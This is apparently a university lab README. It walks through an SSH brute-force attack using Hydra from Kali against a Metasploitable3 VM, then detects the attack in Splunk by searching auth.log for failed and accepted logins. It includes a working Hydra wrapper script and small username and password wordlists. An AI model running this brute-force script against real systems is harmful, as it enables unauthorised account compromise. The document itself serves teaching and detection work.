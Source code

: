 # ICS344 Project: SSH Attack and Splunk Analysis Manual

## Phase 1: SSH Brute Force via Script Method

### 1. Environment Setup

Set up the following machines using VirtualBox:

- **Kali Linux** (Attacker)
- **Metasploitable3** (Victim)

#### Network Setup for Both:

- Adapter 1: NAT Network (for internet access)
- Adapter 2: Host-Only Adapter (to allow communication between VMs)

---

### 2. Check VM Communication

- On **Kali**, run:

```bash
ifconfig
```

![Output should include an IP like `192.168.56.104`](screenshots/Kali_IP.png)

- On **Metasploitable3**, run:

```bash
ifconfig
```

- If the IP is not `192.168.x.x`, run:

```bash
sudo dhclient -r eth1
sudo dhclient eth1
ifconfig
```

![the new IP is `192.168.56.105`](screenshots/Meta_IP.png)

- Test connectivity:

```bash
ping 192.168.56.104 //in Metaspoiltable3
ping 192.168.56.105 //in Kali Linux

```

![VMs Connected](screenshots/Ping_on_Meta.png)
![VMs Connected](screenshots/Ping_on_Kali.png)

---

### 3. Discover Open Ports on the Victim

Run from Kali:

```bash
sudo nmap -sS -sV 192.168.56.105
```

![Output showing open services, including SSH port 22](screenshots/Open_Ports.png)

---

### 4. Prepare Files & Script (Without Running)

```bash
mkdir ssh-brute
cd ssh-brute
```

#### Create `users.txt`

```bash
nano users.txt
```

Paste:

```
pgsql
admin
root
user
vagrant
aisha
test
```

#### Create `pass.txt`

```bash
nano pass.txt
```

Paste:

```
nginx
password
123456
toor
vagrant
aishapass
testpass
```

#### Create `script.sh`

```bash
nano script.sh
```

Paste:

```bash
#!/bin/bash

TARGET_IP="192.168.56.105"
TARGET_PORT=22
USER_LIST="users.txt"
PASSWORD_LIST="pass.txt"
OUTPUT_FILE="valid_credentials.txt"

if ! command -v hydra &> /dev/null; then
    echo "Hydra is not installed. Please install it and try again."
    exit 1
fi

echo "Starting brute force attack with Hydra..."
hydra -L "$USER_LIST" -P "$PASSWORD_LIST" ssh://$TARGET_IP -s $TARGET_PORT -o $OUTPUT_FILE

if [ -s "$OUTPUT_FILE" ]; then
    echo "Brute force attack completed. Valid credentials found:"
    cat "$OUTPUT_FILE"
else
    echo "No valid credentials found."
fi
```

Make it executable:

```bash
chmod +x script.sh
```

---

## Phase 2: SIEM Log Analysis (Splunk)

### 1. Install Splunk Enterprise on Kali

```bash
wget -O splunk-9.3.2.deb https://download.splunk.com/products/splunk/releases/9.3.2/linux/splunk-9.3.2-d8bb32809498-linux-2.6-amd64.deb
sudo dpkg -i splunk-9.3.2.deb
sudo apt --fix-broken install
sudo /opt/splunk/bin/splunk start --accept-license
```

Open Splunk in browser: `http://localhost:8000`

![Splunk web interface main page](screenshots/Splunk_Main_Page.png)

### 2. Install Splunk Forwarder on Metasploitable3

```bash
wget -O splunkforwarder-9.4.1.deb "https://download.splunk.com/products/universalforwarder/releases/9.4.1/linux/splunkforwarder-9.4.1-e3bdab203ac8-linux-amd64.deb"
sudo dpkg -i splunkforwarder-9.4.1.deb
sudo apt --fix-broken install
sudo /opt/splunkforwarder/bin/splunk start --accept-license
```

### 3. Enable Receiving on Port 9997 in Splunk

- Go to **Settings > Forwarding and Receiving**
- Click **Add new receiving port** → enter `9997`

![port 9997 is enabled in Splunk](screenshots/Port_9997.png)

### 4. Connect Forwarder to Server

```bash
sudo /opt/splunkforwarder/bin/splunk add forward-server 192.168.56.104:9997
sudo /opt/splunkforwarder/bin/splunk restart
```

- Check the connection:

```bash
sudo /opt/splunkforwarder/bin/splunk list forward-server
```

![active forward to Splunk server IP and port](screenshots/Active.png)

### 5. Monitor SSH Log File

```bash
sudo /opt/splunkforwarder/bin/splunk add monitor /var/log/auth.log
```

![Log file successfully added to monitor list](screenshots/Log.png)

---

### 6. Run the Attack

Back on Kali:

```bash
cd ssh-brute
./script.sh
```

![Hydra results](screenshots/Atack.png)

---

### 7. Search Logs in Splunk

- Open: `http://localhost:8000`
- Go to **Search & Reporting** > **Data Summary > Hosts**
- Select: `metasploitable3`
- Go to **Sources** → `/var/log/auth.log`

#### Useful Searches:

- Failed logins:

```spl
index=* source="/var/log/auth.log" "Failed password"
```

![Logs showing failed login attempts](Failed/Atack.png)

- Successful logins:

```spl
index=* source="/var/log/auth.log" "Accepted password"
```

![Logs showing successful login (vagrant)](Succesed/Atack.png)

---

## Log Analysis (Detailed Explanation)

### Service: SSH (`sshd`)

- SSH was the main target of the brute-force attack.
- Hydra tested combinations from `users.txt` and `pass.txt`.

### Observed Log Behavior:

- Over 180 total SSH log entries collected during the test window.
- Consistent log pattern:
  - Failed: `Failed password for invalid user ___`
  - Success: `Accepted password for vagrant from 192.168.56.104 port 41862 ssh2`

### Timeline Analysis:

- The logs show a sequence of incorrect login attempts.
- At the end of the sequence, Splunk captured a successful login.
- The log clearly records the attack’s source IP and destination host.

#

---
